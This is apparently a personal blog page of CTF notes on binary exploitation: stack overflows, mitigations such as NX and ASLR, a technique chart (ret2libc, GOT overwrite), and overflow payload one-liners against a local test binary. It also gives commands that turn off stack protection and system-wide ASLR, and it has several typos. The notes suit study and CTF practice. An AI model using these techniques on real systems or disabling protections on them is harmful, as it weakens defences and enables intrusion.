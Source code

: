 ```yaml
---
layout: default
title: PWN in CTF
---
```


<h2>{{ page.title }}</h2>


0x0 Instruction
---
  PWN in CTF are mostly based on exploring and utilize buffer overflow weaknesses. In order to Pwn the question the well known of stack overflow, stack protection techniques and shellcode are needed.

0X1 Stack overflow
---
Performing the stack overflow attack needs hackers having the deep understanding of the target program, which basicly relys on their reverse engineering techniques. Therefore, it is also platform-related. Different oprating system / CPU architectures requires different RE solution.

Otherwise the article[0] below had a very well explaination for x86_64bit Linux buffer overflow.

0x2 ASLR, Stack Canary, NX or PIE
---
They are all exploit mitigation techniques.

NX Bit makes certain areas of memory non executable. Note that NX Bit is set by gcc.

1.Switch off stack protection:

```
gcc -fno-stack-protector -z execstack
```

If ALSR is on every time executing the program, it will be loaded to different memory address. Note that ALSR is set by the OS. 

1.Check ALSR:
```
cat /proc/sys/kernel/randomize_va_space
```

2.Switch off ALSR:
```
sudo echo 0 > /proc/sys/kernel/randomize_va_space
```
    
0x3 Common procedure
---
1. Detect packer (Usually UPX in Linux)
2. checksec.sh DEP and ALSR
3. Assembly code Analysis (stack structure) in order to set breakpoint in gdb. 
   The breakpoint should be set after the stack is filled.
4. Locate RIP.
5. Write shellcode based on occasions below

```
               +---------------------------------+
               |  Classic stack over flow        |
               |  (execute payload in the stack) |
               +----+---+------------------------+
                 if |   | if
                    |   |
                    |   +--------------------------+
                    |                              |
               +----+---------------+     +--------+---------------+
               |  NIX bit           |     |       ALSR             |
               |  ("+z execstack")  |     |  (randomize_va_space)  |
               +--------------------+     +--+---------------------+
               ON   |                        |
          +---------+                        |
          |                                  |
          |                     +--------------------------------------+
+---------------------------+   |  |return+to+pltlt                    |
|  |return+to+libc          |   |  |brute forcee                       |
|  |chained return+to libc  |   |  |GOT overwrite and GOT dereference  |
+---------------------------+   +--------------------------------------+

```

0x4 Useful commands for uploading payload to stack
---
1. Under cmd :
```
 ./bof $(python -c 'print "A" * 264 + " \x7f\xff\xff\xff\xdc\x90"[:: -1]')
```

2. Under cmd, storing payload in a file:
```
 cat payload.txt | ./bof
```

2. Under cmd, payload is an argument:
```
python -c "print 'A'*64+'\x5b\x84\x04\x08'" |xargs ./bof
```

4. Under gdb :
```
run $(python -c 'print "A" * 264 + " \x7f\xff\xff\xff\xdc\x90"[:: -1]')
```

5. Under gdb, storing payload in a file :
```
run < in.txt
```

0x5 Reference
---
[0]https://www.exploit-db.com/docs/33698.pdf

[1]http://blog.csdn.net/caterpillarous/article/details/51177527

[2]http://www.jianshu.com/p/a659924515f7

[3]https://sploitfun.wordpress.com/2015/

[4]https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/

<h2>{{ page.date | date_to_string }}</h2>
